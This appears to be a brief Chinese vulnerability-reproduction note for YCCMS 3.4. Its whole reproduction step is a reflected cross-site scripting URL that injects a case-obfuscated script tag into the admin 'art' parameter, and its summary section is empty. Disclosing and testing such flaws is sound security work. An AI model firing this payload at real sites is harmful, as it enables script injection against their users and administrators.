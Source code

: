 ### 一、漏洞简介 ###

### 二、漏洞影响 ###

YCCMS 3.4

### 三、复现过程 ###

    https://www.0-baize.org/admin/?a=html&art=<sCrIpT>alert(ian)<%2FsCrIpT>&m=arts